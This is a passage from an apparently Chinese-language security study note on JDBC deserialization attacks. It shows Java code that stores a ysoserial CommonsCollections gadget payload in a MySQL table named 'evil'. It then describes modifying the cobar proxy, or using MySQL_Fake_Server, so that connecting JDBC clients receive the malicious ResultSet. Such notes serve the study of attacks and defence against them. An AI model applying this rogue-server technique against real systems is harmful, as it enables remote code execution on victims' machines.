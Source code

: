 3. 所以本地可以写一个脚本，先向数据库写入序列化数据：
    ```java
    public static void main(String[] args) throws Exception {
    
    	String CLASS_NAME = "com.mysql.jdbc.Driver";
    	String URL        = "jdbc:mysql://localhost:3306/test";
    	String USERNAME   = "root";
    	String PASSWORD   = "123456";
    
    	Class.forName(CLASS_NAME);
    	Connection connection = DriverManager.getConnection(URL, USERNAME, PASSWORD);
    
    	File file   = new File("/Users/phoebe/IdeaProjects/ysoserial-su18/CC1WithTransformedMap.bin");
    	int  length = (int) file.length();
    
    	FileInputStream stream = new FileInputStream(file);
    
        // 注意这个表中，第三列的数据类型为 blob
    	PreparedStatement statement = connection.prepareStatement("INSERT INTO evil (`a`,`b`,`c`) VALUES (1,1,?)");
    	statement.setBlob(1, stream, length);
    	statement.execute();
    
    	statement.close();
    	connection.close();
    }
    ```

#### 3.1.2 配置代理服务器

1. 核心思想就是，当客户端传来[两条链所对应的前置 SQL 执行语句](#2.4 两条链的前提和使用版本)时，cobar 中间件将 SQL 语句进行修改，保证查询的结果 `ResultSet` 符合链的调用，要位置对齐。这里 su18 给出的方案是**直接修改 cobar 源码**，只要接受到了那两个查询语句，就将其直接修改以返回满足条件的 `ResultSet`。
    例如，上述例子中将序列化数据存在第三列，那么只要将 `SHOW COLLATION` 改为执行 `select * from evil;`，就能让 `ResultSet` 的第三列含有序列化数据。
2. 其他的就是代理服务器的正常配置。

### 3.2 使用 [MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server) 构造恶意 MySQL 服务器

1. 直接将项目 clone 下来，官方给出了 config 的说明，这里贴一下我的：
    ![image-20241031185458449](JDBC/image-20241031185458449.png)
